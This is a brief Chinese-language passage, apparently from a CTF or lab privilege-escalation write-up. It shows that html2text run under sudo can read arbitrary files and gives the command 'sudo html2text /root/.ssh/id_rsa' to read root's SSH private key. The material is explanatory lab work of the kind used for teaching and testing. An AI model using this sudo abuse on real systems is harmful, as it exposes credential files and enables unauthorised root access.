 

### 查看html2text的说明文档

```
man html2text > 1
cat 1
```

![image-20250324174025053](assets/image-20250324174025053.png)

也就是我们可以利用html2text配合sudo权限读取任意文件





### 读取root用户私钥

```
sudo html2text /root/.ssh/id_rsa
```
